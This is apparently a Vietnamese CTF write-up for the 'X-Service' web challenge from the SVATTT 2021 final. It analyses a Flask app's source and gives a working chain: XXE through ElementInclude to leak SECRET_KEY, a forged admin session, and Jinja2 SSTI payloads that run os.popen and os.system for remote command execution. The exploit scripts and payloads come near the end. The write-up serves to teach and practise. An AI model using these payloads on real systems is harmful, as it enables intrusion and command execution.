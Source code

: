 ```yaml
---
layout: post
title: "WRITEUP SVATTT FINAL 2021: WEB"
categories: CTF
toc: true
---
```

Hé lô mọi người. Ở vòng loại của svattt vừa rồi thì mình không được vô chung kết để chinh chiến vòng đấu hấp dẫn này. Hôm nay là ngày diễn ra chung kết svattt, mình chỉ biết ngồi nhìn các đội chơi thấy hơi buồn 1 chút trong lòng :( , nhưng nhớ đến câu của một người anh nào đó "Không có gì phải buồn hết em, mình có thực lực thua mới buồn không có thực lực thì làm sao phải buồn" nên vì vậy sau khi end giải mình đã xin 1 vài challeng web để làm, tu luyện để hi vọng năm sau có cơ hội vô chung kết. Thôi không luyên thuyên nữa, dưới đây là một số bài mà mình solved được, mình muốn ghi lại vì thấy nó hay cũng như học được nhiều thứ từ những challenge này. Bài viết của niuu baii nên có sai sót thì mọi người góp ý nhé ^^

## Challenge X-Service
Source code và payload mình để ở đây nha [SRC](https://github.com/DauHoangTai/WriteupCTF/tree/master/svattt/2021/final/X-Service)

Bài này thuộc trong AD (Deamon web 01), mình thấy thì bài này khá nhiều đội solved. Bây giờ thì cùng đi phân tích source code mà author cung cấp nhé.

Bài này được author code bằng `python`. Chúng ta được cung cấp 1 file `app.py` và mình sẽ tách từng phần ra phân tích:

```py
import random
import os
from xlib import blacklist as bl, utils as xutils
from flask import Flask, render_template, render_template_string, url_for, redirect, session, request
from flask_socketio import SocketIO, emit, send
from xml.etree import ElementTree, ElementInclude

app = Flask(__name__)
app.config['SECRET_KEY'] = "###CENSORED###"
socketio = SocketIO(app)
```
- Đoạn này thì chỉ có import 1 số lib và setup flask, `SECRET_KEY` được giấu và hiện tại chúng ta không biết nó là gì.

```py
@app.route('/')
def index():
	if 'username' in session:
		return redirect(url_for('dashboard'))
	return redirect(url_for('login'))


@app.route('/dashboard')
def dashboard():
	if 'username' in session:
		return render_template('dashboard.html', name=session['username'])
	return redirect(url_for('login'))
```
- Route `/`: kiểm tra `username` có trong `session` thì sẽ redirect cho chúng ta tới trang `/dashboard`, nếu không thì sẽ redirect tới trang `/login`.
- Router `/dashboard`: kiểm tra `username` có trong `session` thì render ra `dashboard.html` với `name=session['username']`, nếu không thì redirect về `login`

```py
@app.route('/login', methods = ['GET', 'POST'])
def login():
	if 'username' in session:
		redirect(url_for('/dashboard'))
	else:
		if request.method == 'POST':
			username, password, guest = '', '', ''
			try:
				username = request.form["username"]
				password = request.form["password"]
			except:
				pass

			try:
				guest = request.form["guest"]
			except:
				pass

			if len(username)>0 and len(password) > 0:
				res = xutils.login_check(username, password)
				if len(res)>0:
					session['is_admin'] = 0
					session['username'] = username
			elif guest != None and guest == "true":
				session['is_admin'] = 0
				session['username'] = 'guest%s'%(random.randrange(1000000, 9999999))
			return redirect(url_for('dashboard'))
		return render_template('login.html')
```
- Route `/login`: 
	- Kiểm tra `username` có trong session thì redirect tới `/dashboard`. Nếu không thì vô `else`, kiểm tra nếu request bằng POST method, ở đây chúng ta có 3 tham số để truyền vào `username, password, guest`. Kiểm tra len của `username` và `password` > 0 thì đưa 2 tham số này vô func `login_check` (func này được author code ở trong file `utils.py`). Có response thì set session `is_admin = 0` và `username=username` (username mình login vào).
	- `guest=true` thì sẽ không check login, cũng set session `is_admin=0` và `username=guest4955629` (4955629 là random từ khoảng 1000000 -> 9999999, mỗi lần login guest thì số sẽ khác nhau).
	- Cuối cùng redirect tới `dashboard`.

```py
@app.route('/about')
def about():
	return render_template('about.html')

@app.route('/logout')
def logout():
	session.clear()
	return redirect(url_for('login'))

@app.route('/manage')
def manage():
	try:
		if session['is_admin'] == 1:
			black_list = bl.BLACKLIST
			for c in black_list:
				usn = session['username'].replace(c, "")
			if xutils.check_user(usn) == True:
				return render_template_string('Hello ' + usn + ', under development!')
			else:
				return render_template_string(usn + " not available")
		else:
			return redirect(url_for('dashboard'))
	except:
		return redirect(url_for('login'))
```
- Route `/about`: render template `about.html`
- Route `/logout`: Xóa session và redirect về login.
- Route `/manage`: 
	- Func này quan trọng đến việc exploit cho bài. Check session `is_admin=1`, tiếp theo check session `username` nếu chứa char nằm trong `BLACKLIST` (được tạo trong trong file `blacklist.py`) thì sẽ bị replace thành null.
	- Check `usn` (session username) bằng func `check_user` được code trong file `utils.py`. Dù kết quả của func này trả về là gì thì vẫn `render_template_string` 1 đoạn string + `usn` (session username) => có thể SSTI ở đây.

```py
@socketio.on('message')
def handle_message(xpath, xml):
	if 'username' in session:
		if len(xpath) != 0 and len(xml) != 0 and "&" not in xml:
			try:
				res = ''
				root = ElementTree.fromstring(xml.strip())
				ElementInclude.include(root)
				for elem in root.findall(xpath):
					if elem.text != "":
						res += elem.text + ", "
				emit('result', res[:-2])
			except Exception as e:
				emit('result', 'Nani?')
		else:
			emit('result', 'Nani?')
```
- Func `handle_message` được gửi bằng socket. Check len 2 tham số mà chúng ta đưa vào `xpath`, `xml` phải lớn 0 và không được có `&` trong `xml` (chặn 1 số payload xxe cơ bản có thể retrieve files).
- Đoạn code còn lại là xử lí xml bằng lib [xml.etree.ElementTree](https://docs.python.org/3/library/xml.etree.elementtree.html)
- Cuối cùng show ra những `element` trùng với `xpath` mà ta đưa vào.

### IDEA
- Chúng ta cần có `session['is_admin']=1` để vô được route `/manage` và từ đó có thể rce và get flag. Nhưng ở trong code không có chỗ nào mà set session `is_admin=1`.
- Sử dụng login by guess để có thể vô `dashboard`, sau đó chúng ta `XXE injection` để đọc file `app.py` => lấy được `SECRET_KEY` => fake session `is_admin=1` và `username` là payload ssti => thay vô cookie header => như vậy là có thể ssti bình thường.
- Sau một thời gian đọc document về lib `xml.etree.ElementTree` thì thấy được 1 payload này có vẻ khả thi và không sử dụng `&` [here](https://docs.python.org/3/library/xml.etree.elementtree.html#id3)
- Mình có thử payload sử dụng file `dtd` payload này không sài `&` nhưng không có request tới server của mình.

### Payload
File `app.py`

```py
from flask import Flask, session, request

app = Flask(__name__)
app.config['SECRET_KEY'] = '476345fdc597d6cb6dd68ae949b2694a'

@app.route('/')
def index():
        session["is_admin"] = 1
        session["username"] = """{%print(lipsum|attr("__globals__"))|attr("__getitem__")("os")|attr("popen")("/readflag")|attr("read")()%}"""
        return 'taidh'
    
if __name__ == '__main__':
        app.run()

```
Chạy file này với command `python3 app.py`

File `payload.py`

```py
import requests
import string
import sys


if len(sys.argv) < 2:
	print("[+] python3 poc.py <url>")
	exit()

URL = sys.argv[1]

def getSession():
	r = requests.get('http://127.0.0.1:5000')
	session = r.cookies['session']
	# print(session)
	return session

def getFlag():
	cookies = {"session":getSession()}
	r = requests.get(url=URL+'/manage',cookies=cookies)
	print(r.text)

if __name__ == "__main__":
	getFlag()
```
Chạy file này với command `python3 payload.py http://34.124.209.122:1337/`. Nếu có source deploy trên local thì thay bằng url local
![image](https://user-images.githubusercontent.com/54855855/141679163-21adcb12-0fbc-46f6-b811-a70fc86142d2.png)
BONUS: Tối hôm đó mình solved, có vẻ như chall vẫn đang được patch bằng cách replace thêm 1 số kí tự như `["{{","/", "*", "'", '"', "o","r"]`. Vì vậy mình không thể solved bằng payload trên mà mình đã thay bằng:
```
{{config.__class__.__init__.__globals__['os'].system('/?eadFlag > /tmp/taidh')}}
```
Cuối cùng mình sử dụng `xml` lúc đầu để đọc `environ` để đọc flag bằng đường dẫn `/tmp/taidh`. Nhưng mình không hiểu tại sao vẫn có thể sài `"` `'` và `{{` bình thường mặc dù nó nằm trong `blacklist`. Chỉ có mỗi `r` bị replace :D

# UPDATING CÁC CHALLENG CÒN LẠI
